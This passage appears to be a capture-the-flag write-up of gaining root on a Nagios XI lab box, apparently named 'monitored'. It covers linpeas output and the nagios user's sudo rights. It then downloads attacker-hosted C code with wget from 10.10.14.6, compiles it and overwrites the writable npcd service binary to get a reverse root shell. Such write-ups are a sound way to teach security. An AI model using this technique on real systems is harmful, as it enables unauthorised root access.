[+] /usr/bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)
[+] /usr/bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)

[+] nmap is available for network discovery & port scanning, you should use it yourself


╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/mariadb.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd


                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found
You can write SUID file: /usr/local/nagios/libexec/check_icmp
You can write SUID file: /usr/local/nagios/libexec/check_dhcp
```

Ok so seems like we have write permissions over some files with SUID perms!

The key to the success is that writable service under /usr/local/nagios/bin/npcd. We can start by checkin that we have wrtie permissions as we are actually logged in as Nagios:

```
bash: ll: command not found
nagios@monitored:/tmp$ ls -al /usr/local/nagios/bin/npcd
ls -al /usr/local/nagios/bin/npcd
-rwxr-xr-- 1 nagios nagios 54 Jan 14 13:32 /usr/local/nagios/bin/npcd
nagios@monitored:/tmp$
```

We can check the status of the service:

```
nagios@monitored:/tmp$ cat /etc/init.d/npcd                          
cat /etc/init.d/npcd
cat: /etc/init.d/npcd: No such file or directory
nagios@monitored:/tmp$ ls -al /etc/init.d/npcd
ls -al /etc/init.d/npcd
ls: cannot access '/etc/init.d/npcd': No such file or directory
nagios@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status npcd
<cal/nagiosxi/scripts/manage_services.sh status npcd
● npcd.service - Nagios Process Control Daemon
     Loaded: loaded (/etc/systemd/system/npcd.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2024-01-14 13:33:46 EST; 22h ago
   Main PID: 101762 (npcd)
      Tasks: 2 (limit: 4661)
     Memory: 984.0K
        CPU: 8ms
     CGroup: /system.slice/npcd.service
             ├─101762 /bin/bash /usr/local/nagios/bin/npcd -f /usr/local/nagios/etc/pnp/npcd.cfg
             └─101763 bash -i
```

And we can see that nagios can run many commands as sudo:

```
User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

Now checking that /usr/local/nagiosxi/scripts/manage\_services.sh:

```
BASEDIR=$(dirname $(readlink -f $0))

# Import xi-sys.cfg config vars
. $BASEDIR/../etc/xi-sys.cfg

# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")

# Helper functions
# -----------------------
```

We can see that we can perform example status/reload/start/stop on several processes and one of them is npcd where we have access to the suid:

```
nagios@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status ncpd
<cal/nagiosxi/scripts/manage_services.sh status ncpd
Second parameter must be one of: postgresql httpd mysqld nagios ndo2db npcd snmptt ntpd crond shellinaboxd snmptrapd php-fpm
nagios@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status npcd
<cal/nagiosxi/scripts/manage_services.sh status npcd
● npcd.service - Nagios Process Control Daemon
     Loaded: loaded (/etc/systemd/system/npcd.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2024-01-14 13:33:46 EST; 22h ago
   Main PID: 101762 (npcd)
      Tasks: 2 (limit: 4661)
     Memory: 984.0K
        CPU: 8ms
     CGroup: /system.slice/npcd.service
             ├─101762 /bin/bash /usr/local/nagios/bin/npcd -f /usr/local/nagios/etc/pnp/npcd.cfg
             └─101763 bash -i
```

And checking back we can see that this service is pointing to exacty that file we have access so my idea is to create a revshell in c format!

The idea is to create a meterpreter elf file and move it to the original file position under /usr/local/nagios/bin/npcd in this case when wil run:

```
sudo -u root /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

Should invoke a revshell as root!

```
agios@monitored:/tmp$ wget 10.10.14.6/npcd.c
wget 10.10.14.6/npcd.c
--2024-01-15 12:21:41--  http://10.10.14.6/npcd.c
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 394 [text/x-csrc]
Saving to: ‘npcd.c’

     0K                                                       100% 52.2M=0s

2024-01-15 12:21:41 (52.2 MB/s) - ‘npcd.c’ saved [394/394]

nagios@monitored:/tmp$ gcc npcd.c -o npcd
gcc npcd.c -o npcd
nagios@monitored:/tmp$ chmod +x npcd
chmod +x npcd
nagios@monitored:/tmp$ ls -al
ls -al
total 68
drwxrwxrwt 11 root   root    4096 Jan 15 12:21 .
drwxr-xr-x 19 root   root    4096 Jan  8 02:49 ..
drwxrwxrwt  2 root   root    4096 Jan 13 14:00 .font-unix
drwxrwxrwt  2 root   root    4096 Jan 13 14:00 .ICE-unix
-rwxr-xr-x  1 nagios nagios 16712 Jan 15 12:21 npcd
-rw-r--r--  1 nagios nagios   394 Jan 15 12:20 npcd.c
drwx------  3 root   root    4096 Jan 13 14:00 systemd-private-8d0924ada0e7415d9aec8953debb9cc4-apache2.service-mBhdwf
drwx------  3 root   root    4096 Jan 13 14:00 systemd-private-8d0924ada0e7415d9aec8953debb9cc4-ntp.service-FNPvui
drwx------  3 root   root    4096 Jan 13 14:00 systemd-private-8d0924ada0e7415d9aec8953debb9cc4-systemd-logind.service-TmUHZf
drwxrwxrwt  2 root   root    4096 Jan 13 14:00 .Test-unix
drwx------  2 root   root    4096 Jan 13 14:01 vmware-root_414-592089511
drwxrwxrwt  2 root   root    4096 Jan 13 14:00 .X11-unix
drwxrwxrwt  2 root   root    4096 Jan 13 14:00 .XIM-unix
nagios@monitored:/tmp$ cp npcd /usr/local/nagios/bin
cp npcd /usr/local/nagios/bin
nagios@monitored:/tmp$
```

And it's finally root!

&nbsp;

 

&nbsp;

&nbsp;